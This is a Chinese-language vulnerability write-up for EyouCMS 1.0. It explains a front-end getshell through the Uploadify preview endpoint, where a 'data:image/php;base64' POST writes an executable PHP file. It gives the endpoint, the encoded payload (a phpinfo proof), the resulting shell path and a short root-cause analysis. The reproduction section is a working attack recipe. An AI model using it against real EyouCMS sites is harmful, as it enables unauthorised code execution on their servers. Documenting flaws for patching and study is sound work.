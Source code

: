```yaml
---
title: "Eyoucms 1.0 前台getshell"
id: zhfly2916
---
```


# Eyoucms 1.0 前台getshell

## 一、漏洞简介

官网：http://www.eyoucms.com/download/
Cms下载地址：http://www.eyoucms.com/eyoucms1.0.zip

## 二、漏洞影响

## 三、复现过程

老样子：先讲如何利用

```
url: http://test.eyoucms1.0.com/index.php/api/Uploadify/preview `构造: <?php phpinfo;` 
```

![image](../img/7978445a5d92b706f233d6fd3375a930.png)

```
post: data:image/php;base64,PD9waHAgcGhwaW5mbygpOw== 
```

![image](../img/3a80a5dd2a7640989aa2d16c0aee02ea.png)

Shell: http://test.eyoucms1.0.com/preview/ae85d74a721b0b8bd247bc31207a12e2.php

![image](../img/0785e398fa077c95cb0cb3aa66611ad5.png)

![image](../img/75cb99cdf9868ad96f977648b17b3cb9.png)

### 原理分析

漏洞文件： eyoucms1.0\application\api\controller\Uploadify.php
漏洞函数：preview()

![image](../img/70c7a79ef0f1dbac9771e402db57c791.png)

![image](../img/3e8f9a403b741846aba94538f7b11fc3.png)

这里我将每行有意义的代码都解释了一下帮助读者进行查看。

而我刚开始时也思考了一下，这会不会是作者故意搞的后门？
带着这个问题我去问了一下加的php群的一些程序员 他们很惊讶的 表示data:image/ 居然还可以不是图片？
好吧。到这里我就基本明白为什么这个漏洞会出现了，估计作者以为data:image/ 只能是图片。

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/kbh8mh